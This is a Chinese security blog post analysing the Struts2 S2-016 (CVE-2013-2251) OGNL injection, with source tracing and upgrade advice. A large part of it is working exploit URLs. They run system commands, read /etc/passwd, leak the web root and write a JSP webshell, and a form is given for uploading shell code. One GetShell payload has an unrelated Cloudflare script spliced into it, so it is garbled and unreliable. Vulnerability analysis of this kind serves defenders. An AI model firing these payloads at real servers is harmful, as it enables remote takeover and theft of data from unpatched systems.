



# struts2 CVE-2013-2251 S2-016 action、redirect code injection remote command execution - 郑瀚 Andrew - 博客园

> 原文：[`www.cnblogs.com/LittleHann/p/4641193.html`](https://www.cnblogs.com/LittleHann/p/4641193.html)

**catalog**

```
1. Description 2. Effected Scope 3. Exploit Analysis 4. Principle Of Vulnerability 5. Patch Fix
```

**1\. Description**

struts2 中有 2 个导航标签(action、redirect)，后面可以直接跟 ongl 表达式，比如

```
1. test.action?action:${exp} 2. test.action?redirect:${exp}
```

Struts2 的 DefaultActionMapper 支持一种方法，可以使用"action:"、"redirect:"、"redirectAction:"对输入信息进行处理，从而改变前缀参数，这样操作的目的是方便表单中的操作。在 2.3.15.1 版本以前的 struts2 中，没有对"action:"、"redirect:"、"redirectAction:"等进行处理，导致 ognl 表达式可以被执行
在 struts 中，框架接收到的用户输入，除了参数、值以外，还有其他地方，比如文件名。这个漏洞，是 struts2 对 url 中的文件名做了解析，导致的 ognl 代码执行

**********Relevant Link:**********

```
https://struts.apache.org/docs/s2-016.html
http://www.nxadmin.com/web/1177.html
```

**2\. Effected Scope**

```
Struts 2.0.0 – Struts 2.3.15
```

**3\. Exploit Analysis**

***0x1: POC: 执行系统指令***

```
http://localhost:8080/S2-XX/Login.action?redirect:${%23a%3dnew%20java.lang.ProcessBuilder(new%20java.lang.String[]{%22netstat%22,%22-an%22}).start().getInputStream(),%23b%3dnew%20java.io.InputStreamReader(%23a),%23c%3dnew%20java.io.BufferedReader(%23b),%23d%3dnew%20char[51020],%23c.read(%23d),%23screen%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter(),%23screen.println(%23d),%23screen.close()}">test.action?redirect:${%23a%3dnew%20java.lang.ProcessBuilder(new%20java.lang.String[]{%22netstat%22,%22-an%22}).start().getInputStream(),%23b%3dnew%20java.io.InputStreamReader(%23a),%23c%3dnew%20java
```

***0x2: POC: 测试跳转***

```
http://localhost:8080/S2-XX/Login.action?redirect:%25{3*4}
```

***0x3: POC: 执行任意命令***

```
http://localhost:8080/S2-XX/Login.action?redirect:${%23a%3d(new java.lang.ProcessBuilder(new java.lang.String[]{'cat','/etc/passwd'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew java.io.InputStreamReader(%23b),%23d%3dnew java.io.BufferedReader(%23c),%23e%3dnew char[50000],%23d.read(%23e),%23matt%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%23matt.getWriter().println(%23e),%23matt.getWriter().flush(),%23matt.getWriter().close()}
```

***0x4: POC: 爆网站路径***

```
http://localhost:8080/S2-XX/Login.action?redirect%3A%24%7B%23req%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletRequest%27%29%2C%23a%3D%23req.getSession%28%29%2C%23b%3D%23a.getServletContext%28%29%2C%23c%3D%23b.getRealPath%28%22%2F%22%29%2C%23matt%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29%2C%23matt.getWriter%28%29.println%28%23c%29%2C%23matt.getWriter%28%29.flush%28%29%2C%23matt.getWriter%28%29.close%28%29%7D /*
http://localhost:8080/S2-XX/Login.action?redirect:${#req=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest'),#a=#req.getSession(),#b=#a.getServletContext(),#c=#b.getRealPath("/"),#matt=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),#matt.getWriter().println(#c),#matt.getWriter().flush(),#matt.getWriter().close()} */
```

***0x5: POC: GetShell***

```
http://localhost:8080/S2-XX/Login.action?%23context%5b%22xwork.MethodAccessor.denyMethodExecution%22%5d%3dfalse%2c%23f%3d%23_memberAccess.getClass%28%29.getDeclaredField%28%22allowStaticMethodAccess%22%29%2c%23f.setAccessible%28true%29%2c%23f.set%28%23_memberAccess%2ctrue%29%2c%23a%3d%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletRequest%22%29%2c%23b%3dnew+java.io.FileOutputStream%28new%20java.lang.StringBuilder%28%23a.getRealPath%28%22/%22%29%29.append%28@java.io.File /* <![CDATA[ */!function(){try{var t="currentScript"in document?document.currentScript:function(){for(var t=document.getElementsByTagName("script"),e=t.length;e--;)if(t[e].getAttribute("cf-hash"))return t[e]}();if(t&&t.previousSibling){var e,r,n,i,c=t.previousSibling,a=c.getAttribute("data-cfemail");if(a){for(e="",r=parseInt(a.substr(0,2),16),n=2;a.length-n;n+=2)i=parseInt(a.substr(n,2),16)^r,e+=String.fromCharCode(i);e=document.createTextNode(e),c.parentNode.replaceChild(e,c)}}}catch(u){}}();/* ]]> */@separator%29.append%28%23a.getParameter%28%22name%22%29%29.toString%28%29%29%2c%23b.write%28%23a.getParameter%28%22t%22%29.getBytes%28%29%29%2c%23b.close%28%29%2c%23genxor%3d%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%2c%23genxor.println%28%22BINGO%22%29%2c%23genxor.flush%28%29%2c%23genxor.close%28%29
```

***0x6: POC: GetShell2***

```
http://localhost:8080/S2-XX/Login.action?redirect:${
%23req%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest'), %23p%3d(%23req.getRealPath(%22/%22)%2b%22test.jsp%22).replaceAll("\\\\", "/"), new+java.io.BufferedWriter(new+java.io.FileWriter(%23p)).append(%23req.getParameter(%22c%22)).close()
}&c=%3c%25if(request.getParameter(%22f%22)!%3dnull)(new+java.io.FileOutputStream(application.getRealPath(%22%2f%22)%2brequest.getParameter(%22f%
/*
http://localhost:8080/S2-XX/Login.action?redirect:${
#req=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest'),
#p=(#req.getRealPath("/")+"test.jsp").replaceAll("\\\\", "/"),
new java.io.BufferedWriter(new java.io.FileWriter(#p)).append(#req.getParameter("c")).close()
}&c=<%if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("/")+request.getParameter("f% */
```

然后用以下代码写 shell

```
<form action="http://localhost:8080/S2-XX/test.jsp?f=1.jsp" method="post">
<textarea >code</textarea>
<input type=submit value="提交">
</form>
```

**********Relevant Link:**********

```
http://www.waitalone.cn/struts2-command-exp.html
http://www.nigesb.com/struts2-remote-command-execution.html
http://www.freebuf.com/vuls/11220.html
```

**4\. Principle Of Vulnerability**

这里以"redirect:"前缀举例进行源码跟踪分析，struts2 会将"redirect:"前缀后面的内容设置到 redirect.location 当中
org.apache.struts2.dispatcher.FilterDispatcher.class

```
public void doFilter(ServletRequest req, ServletResponse res, FilterChain chain) throws IOException, ServletException {

        HttpServletRequest request = (HttpServletRequest) req;
        HttpServletResponse response = (HttpServletResponse) res;
        ServletContext servletContext = getServletContext();

        String timerKey = "FilterDispatcher_doFilter: "; try {
            UtilTimerStack.push(timerKey);
            request = prepareDispatcherAndWrapRequest(request, response);
            ActionMapping mapping; try {
                mapping = actionMapper.getMapping(request, dispatcher.getConfigurationManager());
            } catch (Exception ex) {
                LOG.error("error getting ActionMapping", ex);
                dispatcher.sendError(request, response, servletContext, HttpServletResponse.SC_INTERNAL_SERVER_ERROR, ex); return;
            }
..
```



getMapping 函数跟入
org.apache.struts2.dispatcher.mapper.DefaultActionMapper.class

```
public ActionMapping getMapping(HttpServletRequest request,
            ConfigurationManager configManager) {
        ActionMapping mapping = new ActionMapping();
        String uri = getUri(request);

        uri = dropExtension(uri); if (uri == null) { return null;
        }

        parseNameAndNamespace(uri, mapping, configManager);

        handleSpecialParameters(request, mapping);
..
```


继续跟入 handleSpecialParameters(request, mapping);
org.apache.struts2.dispatcher.mapper.DefaultActionMapper.class


真正传入 OGNL 表达式是在这个 parameterAction.execute()中，继续跟入



```
public DefaultActionMapper() {
        prefixTrie = new PrefixTrie() {
            {
                put(METHOD_PREFIX, new ParameterAction() { public void execute(String key, ActionMapping mapping) {
                        mapping
                                .setMethod(key
                                        .substring(METHOD_PREFIX.length()));
                    }
                });

                put(ACTION_PREFIX, new ParameterAction() { public void execute(String key, ActionMapping mapping) {
                        String name = key.substring(ACTION_PREFIX.length()); if (allowDynamicMethodCalls) { int bang = name.indexOf('!'); if (bang != -1) {
                                String method = name.substring(bang + 1);
                                mapping.setMethod(method);
                                name = name.substring(0, bang);
                            }
                        }
                        mapping.setName(name);
                    }
                }); //key.substring(REDIRECT_PREFIX.length())得到的就是黑客在 redirect 前缀后面注入的 OGNL 表达式
                put(REDIRECT_PREFIX, new ParameterAction() { public void execute(String key, ActionMapping mapping) {
                        ServletRedirectResult redirect = new ServletRedirectResult();
                        container.inject(redirect); //调用 setLocation 方法将他设置到 redirect.location 中
 redirect.setLocation(key.substring(REDIRECT_PREFIX.length())); //调用 mapping.setResult(redirect)将 redirect 对象设置到 mapping 对象中的 result 里
 mapping.setResult(redirect);
                    }
                });
        ...
```



上面的过程只是传递 OGNL 表达式，真正执行是在后面，这里的 mapping 对象中设置了传入的 OGNL
org.apache.struts2.dispatcher.FilterDispatcher.class


这里跟入方法最终会在 TextParseUtil 这个类的调用 stack.findValue()方法执行 OGNL

**********Relevant Link:**********

```
http://drops.wooyun.org/papers/902
```

**5\. Patch Fix**

*********0x1: upgrade struts2*********

DefaultActionMapper was changed to sanitize "action:"-prefixed information properly. The features involved with "redirect:"/"redirectAction:"-prefixed parameters were completely dropped

```
It is strongly recommended to upgrade to Struts 2.3.15.1, which contains the corrected Struts2-Core library
```

***********0x2: 手工修复***********

```
1. 关闭 struts2 的 redirect、action 导航功能
```

**********Relevant Link:**********

*********************Copyright (c) 2015 Little5ann All rights reserved*********************